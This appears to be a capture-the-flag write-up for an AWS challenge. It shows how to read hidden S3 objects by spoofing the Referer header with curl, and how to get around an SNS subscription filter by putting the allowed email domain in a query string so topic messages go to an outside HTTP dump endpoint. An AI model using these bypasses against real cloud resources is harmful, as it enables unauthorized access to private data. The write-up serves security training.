

# Cryptic Talks!

## Task


> Your recon team has discovered critical Syndicate communications and plans are stored in an S3 bucket, accessed
through a file viewer application. Decode these hidden sensitive documents to find out more about their plans.

## Solution

We can see some files in the file viewer application.



Checking out the page source, we can spot JavaScript code that grabs objects from an S3 bucket and shows only the ones
under the `files/` prefix:

```javascript
// Make a request to list objects in the bucket
$.ajax({
  url: bucketUrl,
  success: function (data) {
    // Parse the XML response
    var xml = $(data);

    // Extract file and folder information from the XML response
    var entries = xml.find("Contents");

    // Display the entries in the table
    var fileList = $("#file-list");
    entries.each(function () {
      var entry = $(this);
      var name = entry.find("Key").text();
      var size = entry.find("Size").text();
      var lastModified = entry.find("LastModified").text();

      var iconClass = getIconClass(name);

      if (name.startsWith("files/") && name != "files/") {
        // Check if it's a file or a folder
        if (entry.is("Contents")) {
          fileList.append(
            '<tr class="w-full cursor-pointer p-2 text-gray-900 rounded-lg dark:text-white hover:bg-gray-100 dark:hover:bg-gray-700" onclick="openFile(\'' +
              name +
              '\')"><td scope="row" class="flex mr-2 px-6 py-4 font-medium text-gray-900 whitespace-nowrap dark:text-white">' +
              iconClass +
              name.replace('files/','') +
              '</td><td class="px-6 py-4">' +
              size +
              '</td><td class="px-6 py-4">' +
              lastModified +
              "</td></tr>"
          );
        }
      }
    });
  },
  error: function (error) {
    console.error("Error:", error);
  },
});
```

Let's use Burp Suite Interceptor to see what is actually returned from the S3 bucket:


In the response from S3, we can see a few files under the `logs` prefix, which are not displayed in the web application:

```xml
<Contents>
	<Key>logs/comms.log</Key>
	<LastModified>2024-01-30T04:39:34.000Z</LastModified>
	<ETag>&quot;6793ef7d841617e31f9d93fff6994966&quot;</ETag>
	<Size>1759</Size>
	<StorageClass>STANDARD</StorageClass>
</Contents>
<Contents>
	<Key>logs/site.log</Key>
	<LastModified>2023-12-21T11:28:06.000Z</LastModified>
	<ETag>&quot;21a680a3dfcf4dba3e4cc46510e7d6ab&quot;</ETag>
	<Size>3486</Size>
	<StorageClass>STANDARD</StorageClass>
</Contents>
<Contents>
	<Key>logs/web.log</Key>
	<LastModified>2023-12-21T11:28:10.000Z</LastModified>
	<ETag>&quot;672a1c149bf89868abe055d76c021aa3&quot;</ETag>
	<Size>100825</Size>
	<StorageClass>STANDARD</StorageClass>
</Contents>
```

When trying to access these objects we get the "Access Denied" error. However, the file viewer web application is able
to retrieve the files without any credentials. In the intercepted request sent by the file viewer, we can notice it sets
the `Referer` HTTP header. It's possible that the S3 bucket policy
[restricts access only to a specific HTTP referer](https://docs.aws.amazon.com/AmazonS3/latest/userguide/example-bucket-policies.html#example-bucket-policies-HTTP-HTTPS). We can access the S3 objects by specifying the same `Referer` header as the
web app. The `logs/comms.log` file is particularly interesting:

```
➜  ~ curl -H "Referer: https://5cqjmgzfna.execute-api.us-east-1.amazonaws.com/" https://syndicate-files-7474849.s3.amazonaws.com/logs/comms.log
Syn4w: Hey, I found this file in the logs bucket. It seems to contain a communication log between some members. There's someone here using SNS topics to broadcast cryptic strings to others.

Cipher404: Interesting, Syn4w. Let's decrypt this. Who's the operative behind these cryptic messages?

Syn4w: The sender is Alex Johnson, operating under the cover email "alex.johnson@synd1cat3.org"

Cipher404: Got it. And the recipient?

Syn4w: Sarah Martinez, using the cover email "sarah.martinez@synd1cat3.org"

Cipher404: Perfect. Now, any idea what these cryptic messages are about?

Syn4w: They seem project-related, discussing target updates and technical details.

Cipher404: Intriguing. Any leads on Alex's AWS account?

Syn4w: Yeah, he dropped his AWS account ID in one of the messages: "816362139463"

Cipher404: Good find. Now, where's Alex based?

Syn4w: He's working out of North Virginia.

Cipher404: Excellent. So, we have Alex Johnson, "alex.johnson@synd1cat3.org," AWS account "816362139463" North Virginia.

Syn4w: Right. Now, let's uncover the SNS topic name. That might lead us to more answers.

Cipher404: Agreed. Scanning the messages for any mention of SNS topics...

Syn4w: Found it! In one of the messages, Alex referred to the SNS topic as "ch4_topic"

Cipher404: Perfect. That's the missing link. The SNS topic name is "ch4_topic" We can use this to trace the messages and dig deeper.

Syn4w: Mystery solved, Cipher404! Our next move?

Cipher404: We'll follow the trail using this SNS topic. Keep an eye out for any anomalies. And, Syn4w, great work. We'll get to the bottom of this.

Syn4w: Thanks, Cipher404. Let's proceed with caution.

Cipher404: Absolutely. Stay vigilant, Syn4w. We'll unveil the secrets behind these cryptic strings.
```

After enumerating the SNS topic using the credentials of the `SecretDataViewer` role, it turns out we can only subscribe
to the topic when the notification endpoint ends with `@synd1cat3.org`. Most of the notification endpoint types don't
support the `@` character in their names, but `@` can be placed in a URL query string. We can use for example
[httpdump.app](https://httpdump.app) as an HTTPS notification endpoint:

```
➜  ~ aws sns subscribe --topic-arn arn:aws:sns:us-east-1:816362139463:ch4_topic --protocol https --notification-endpoint 'https://httpdump.app/dumps/61dfe48f-0b2c-4a0f-850c-cd96a2ab90b7?_=member@synd1cat3.org' --no-cli-pager

{
    "SubscriptionArn": "pending confirmation"
}
```

In the HTTP dump, we should see a request from SNS for the subscription confirmation:


Once we confirm the subscription, we should start receiving the messages from the SNS topic. The messages are
Base64-encoded:


Decode the Base64-encoded message:

```
➜  ~ echo SW5pdGlhdGluZyBzZWN1cmUga2V5IGV4Y2hhbmdlOiBUcmFuc21pdHRpbmcgc2VjcmV0IGtleSwgZW5zdXJlIHNlY3VyZSBjaGFubmVsIGZvciByZWNlcHRpb24uOiBGTEFHezdlNTJjNDg4OWFhNjc3OWZhMzE3YzA5YmY0ODkwY2Y4fQ== | base64 -d

Initiating secure key exchange: Transmitting secret key, ensure secure channel for reception.: FLAG{7e52c4889aa6779fa317c09bf4890cf8}
```
